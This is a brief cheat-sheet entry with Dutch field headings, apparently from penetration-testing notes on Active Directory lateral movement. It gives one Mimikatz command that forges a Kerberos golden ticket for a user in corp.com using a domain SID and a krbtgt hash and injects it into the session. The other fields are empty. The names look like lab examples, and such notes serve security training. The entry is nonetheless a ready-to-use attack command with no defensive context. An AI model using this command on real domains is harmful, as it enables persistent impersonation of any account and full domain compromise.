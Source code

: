 # 24. AD Lateral Movement — Entry 47

## Categorie

Golden ticket attack - Mimikatz

## Commando

```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

## Omschrijving

Creating a golden ticket with Mimikatz

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

